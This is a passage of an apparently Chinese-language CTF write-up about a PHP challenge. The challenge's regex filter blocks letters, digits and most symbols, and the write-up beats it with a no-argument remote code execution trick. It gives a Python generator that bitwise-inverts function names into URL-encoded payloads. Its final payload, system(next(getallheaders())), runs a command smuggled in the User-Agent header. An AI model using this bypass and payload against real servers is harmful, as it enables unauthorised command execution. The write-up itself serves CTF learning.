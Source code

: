 我们传入的命令中不能有以下，

```plain
/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/，
```

想到是无字母数字，过滤了 异或 和或，留了取反。

同时我们的函数必须是无参的。

[![](assets/1698897208-2dbc1ac6c7b5a92de3ea45fd06d6d8dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-47c51d7a-8d68-1.png)

类似于这种，之前在 buuoj 上有遇到这种题目，无参数 RCE。

```plain
def one(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:].upper()
    return f"[~{ss}][!%FF]("

while 1:
    a = input(":>").strip(")")
    aa = a.split("(")
    s = ""
    for each in aa[:-1]:
        s += one(each)
    s += ")" * (len(aa) - 1) + ";"
    print(s)
```

利用脚本生成一下 payload，

试了好多遍，getallheaders() 在最后加的话用 bp 打好像并不是最后一个，试了好多种别的办法无果，但是 next() 后是 ua 头，于是我丧心病狂，直接改 ua

利用 payload: `system(next(getallheaders()));`

[![](assets/1698897208-22c05a102499adb897ffd2d5d218261d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-47e63636-8d68-1.png)
